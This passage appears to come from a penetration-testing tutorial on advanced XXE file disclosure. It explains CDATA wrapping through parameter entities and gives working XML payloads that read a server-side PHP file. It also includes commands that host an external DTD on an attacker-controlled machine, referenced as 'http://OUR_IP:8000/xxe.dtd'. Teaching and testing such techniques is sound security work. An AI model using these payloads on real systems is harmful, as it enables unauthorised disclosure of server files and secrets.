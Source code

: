 ## Advanced File Disclosure 

Not all XXE vulnerabilities may be straightforward to exploit. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors. 

### Advanced Exfiltration with CDATA 

We can utilize another method to extract any kind of data (including binary data) for any web application backend, regardless of the language used. To output data that does not conform to the XML format, we can wrap the content of the external file reference with a **CDATA** tag ( `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters. 

One easy way to tackle this issue would be to define a **begin** internal entity with `<![CDATA[, an **end** internal entity with ]]>`, and then place our external entity file in between, and it should be considered as a CDATA element, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the `&joined;` entity, it should contain our escaped data. However, this will not work, since XML prevents joining internal and external entities. To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source, then all of them would be considered as external and can be joined, as follows:
```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the submitDetails.php file by first storing the above line in a DTD file, host it on our machine, and then reference it as an external entity on the target web application, as follows:
```console
zero@pio$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd 
zero@pio$ python3 -m http.server 8000
```

Now, we can reference our external entity and then print the `&joined;` entity we defined above, which should contain the content of the submitDetails.php file, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
